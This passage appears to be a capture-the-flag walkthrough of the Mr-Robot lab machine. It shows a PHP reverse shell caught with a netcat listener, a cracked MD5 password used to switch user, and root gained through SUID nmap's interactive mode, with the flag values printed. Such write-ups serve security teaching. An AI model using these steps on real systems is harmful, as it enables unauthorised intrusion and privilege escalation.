-rw-------   1 kan1shka9  staff   308B May 26  2007 COPYING.PHP-REVERSE-SHELL
-rwx------   1 kan1shka9  staff   5.4K May 26  2007 php-reverse-shell.php
➜  php-reverse-shell-1.0
➜  php-reverse-shell-1.0 vim php-reverse-shell.php
```





```
http://192.168.1.7/sbvdjf
```



```sh
root@kali:~/mr-robot# nc -nlvp 4455
listening on [any] 4455 ...
connect to [192.168.1.8] from (UNKNOWN) [192.168.1.7] 43443
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 17:13:27 up  1:17,  0 users,  load average: 0.17, 0.24, 0.83
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty; pty.spawn("/bin/bash")'
daemon@linux:/$ ls -lah
ls -lah
total 84K
drwxr-xr-x  22 root root 4.0K Sep 16  2015 .
drwxr-xr-x  22 root root 4.0K Sep 16  2015 ..
drwxr-xr-x   2 root root 4.0K Sep 16  2015 bin
drwxr-xr-x   3 root root 4.0K Nov 13  2015 boot
drwxr-xr-x  13 root root 3.9K May 23 08:56 dev
drwxr-xr-x  77 root root 4.0K May 23 08:56 etc
drwxr-xr-x   3 root root 4.0K Nov 13  2015 home
lrwxrwxrwx   1 root root   33 Jun 24  2015 initrd.img -> boot/initrd.img-3.13.0-55-generic
drwxr-xr-x  16 root root 4.0K Jun 24  2015 lib
drwxr-xr-x   2 root root 4.0K Jun 24  2015 lib64
drwx------   2 root root  16K Jun 24  2015 lost+found
drwxr-xr-x   2 root root 4.0K Jun 24  2015 media
drwxr-xr-x   4 root root 4.0K Nov 13  2015 mnt
drwxr-xr-x   3 root root 4.0K Sep 16  2015 opt
dr-xr-xr-x 345 root root    0 May 23 08:55 proc
drwx------   3 root root 4.0K Nov 13  2015 root
drwxr-xr-x  14 root root  500 May 23 15:56 run
drwxr-xr-x   2 root root 4.0K Nov 13  2015 sbin
drwxr-xr-x   3 root root 4.0K Jun 24  2015 srv
dr-xr-xr-x  13 root root    0 May 23 08:55 sys
drwxrwxrwt   5 root root 4.0K May 23 16:06 tmp
drwxr-xr-x  10 root root 4.0K Jun 24  2015 usr
drwxr-xr-x  11 root root 4.0K Jun 24  2015 var
lrwxrwxrwx   1 root root   30 Jun 24  2015 vmlinuz -> boot/vmlinuz-3.13.0-55-generic
daemon@linux:/$ cd /home
cd /home
daemon@linux:/home$ ls -lah
ls -lah
total 12K
drwxr-xr-x  3 root root 4.0K Nov 13  2015 .
drwxr-xr-x 22 root root 4.0K Sep 16  2015 ..
drwxr-xr-x  2 root root 4.0K Nov 13  2015 robot
daemon@linux:/home$ cd robot
cd robot
daemon@linux:/home/robot$ ls -lah
ls -lah
total 16K
drwxr-xr-x 2 root  root  4.0K Nov 13  2015 .
drwxr-xr-x 3 root  root  4.0K Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
daemon@linux:/home/robot$ cat key-2-of-3.txt
cat key-2-of-3.txt
cat: key-2-of-3.txt: Permission denied
daemon@linux:/home/robot$ cat password.raw-md5
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
daemon@linux:/home/robot$
```



```sh
daemon@linux:/home/robot$ su - robot
su - robot
Password: abcdefghijklmnopqrstuvwxyz

$ id
id
uid=1002(robot) gid=1002(robot) groups=1002(robot)
$ ls -lah
ls -lah
total 16K
drwxr-xr-x 2 root  root  4.0K Nov 13  2015 .
drwxr-xr-x 3 root  root  4.0K Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
$
```

###### Privilege Escalation

- Search for `SUID` binaries

```sh
$ find / -user root -perm -4000 2>/dev/null
find / -user root -perm -4000 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
$
```

```sh
$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !bash -p
!bash -p
bash-4.3# id
id
uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)
bash-4.3# cd /root
cd /root
bash-4.3# ls -lah
ls -lah
total 32K
drwx------  3 root root 4.0K Nov 13  2015 .
drwxr-xr-x 22 root root 4.0K Sep 16  2015 ..
-rw-------  1 root root 4.0K Nov 14  2015 .bash_history
-rw-r--r--  1 root root 3.2K Sep 16  2015 .bashrc
drwx------  2 root root 4.0K Nov 13  2015 .cache
-rw-r--r--  1 root root    0 Nov 13  2015 firstboot_done
-r--------  1 root root   33 Nov 13  2015 key-3-of-3.txt
-rw-r--r--  1 root root  140 Feb 20  2014 .profile
-rw-------  1 root root 1.0K Sep 16  2015 .rnd
bash-4.3# cat key-3-of-3.txt
cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
bash-4.3#
```